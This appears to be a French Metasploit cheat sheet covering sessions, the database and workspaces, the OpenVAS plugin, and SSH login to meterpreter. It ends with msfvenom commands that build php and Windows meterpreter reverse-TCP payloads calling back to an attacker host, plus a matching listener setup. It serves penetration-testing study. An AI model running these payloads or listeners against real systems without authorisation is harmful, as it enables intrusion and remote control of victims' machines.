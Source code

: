 metasploit
==========

## Commandes de base
### Gestion sessions
Pour lister les sessions en cours :
```
msf> sessions -l
```

Pour basculer sur une session existante :
```
msf> sessions -i <id_session>
```

Pour passer une session en arrière plan :
```
meterpreter> background
```

### Listener
Lancer un listener en attente d'un reverse tcp meterpreter windows :
```
msf> use multi/handler
msf> set payload windows/meterpreter/reverse_tcp
msf> set LHOST <ip_kali>
msf> set LPORT <port_ecoute>
msf> exploit -j
```

## Base de données
On va travailler avec *PostgreSQL* qui est la base de données par défaut dans *metasploit*.

### La première fois
Il faut d'abord lancer *PostgreSQL* puis initialiser la base de données pour *metasploit* :
```
# systemctl start postgresql
# msfdb init
```

Cela crée une base de données `msf` et un utilisateur `msf`.
Au démarrage de `msfconsole`, *metasploit* se connectera automatiquement à cette base de données.
On peut vérifier qu'on est bien connecté :
```
msf> db_status
```

### Workspaces
On peut ensuite travailler avec des *workspaces* pour ranger ses différents scans.

Pour lister les *workspaces* disponibles :
```
msf> workspace
```

Pour sélectionner un *workspace* :
```
msf> workspace <workspace_name>
```

Pour créer un *workspace*, on utilise l'option `-a` et pour supprimer un *workspace* `-d`.
Plus d'information avec l'option `-h`.

### Importation de données
Pour importer des données dans la base :
```
msf> db_import <filename_to_import>
```

Pour faire un scan `nmap` et importer directement les résultats :
```
msf> db_nmap <...classical_nmap_options...>
```

### Lire des données
Pour voir les services scannés :
```
msf> services
```

Pour voir les hôtes scannés :
```
msf> hosts
```

On peut ajouter des éléments à afficher :
```
msf> hosts -c address,os_flavor,svcs,vulns
```

Pour voir les vulnérabilités trouvées :
```
msf> vulns
```

## OpenVAS dans Metasploit
Lancer d'abord une instance `OpenVAS`. Par défaut, l'interface web écoute sur le port 9392 et le scanner sur le port 9390.

Pour lancer le plugin `OpenVAS` dans `metasploit` :
```
msf> load openvas
```

On se connecte à l'instance `OpenVAS` :
```
msf> openvas_connect <login> <password> 127.0.0.1 9390 ok
```

Pour lister les targets disponibles :
```
msf> openvas_target_list
```

Pour créer une nouvelle target :
```
msf> openvas_target_create <name> <ip> <comment>
```

Pour lister les configurations de scan possibles :
```
msf> openvas_config_list
```

Pour créer une task :
```
msf> openvas_task_create <name> <comment> <config_id> <target_id>
```

Pour lister les tasks :
```
msf> openvas_task_list
```

Pour lancer un scan :
```
msf> openvas_task_start <id>
```

Pour lister les rapports disponibles :
```
msf> openvas_report_list
```

Pour afficher les différents types de rapport disponibles :
```
msf> openvas_format_list
```

Pour télécharger un rapport :
```
msf> openvas_report_download <report_id> <format_id> <path> <report_name>
```

Pour importer un rapport dans metasploit :
```
msf> openvas_report_import <report_id> <format_id>
```

## Meterpreter
### Ouvrir un shell meterpreter à partir d'une connexion ssh
On peut utiliser le module `ssh_login` :
```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set RHOSTS 10.10.10.10
msf auxiliary(ssh_login) > set USERNAME foo
msf auxiliary(ssh_login) > set PASSWORD bar
msf auxiliary(ssh_login) > exploit
msf auxiliary(ssh_login) > sessions -u 1
```

## Payloads
### php (meterpreter)
Pour créer un payload *php/meterpreter* en reverse tcp sur le port 4444 :
```
# msfvenom -p php/meterpreter/reverse_tcp LHOST=IP_KALI LPORT=4444 -f raw > payload.php
```
### windows (meterpreter)
```
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP_KALI LPORT=4444 -f exe > shell.exe
```

## Sources
* https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf
* https://www.ehacking.net/2011/11/how-to-use-openvas-in-metasploit.html
* https://www.offensive-security.com/metasploit-unleashed/using-databases/
* https://netsec.ws/?p=331
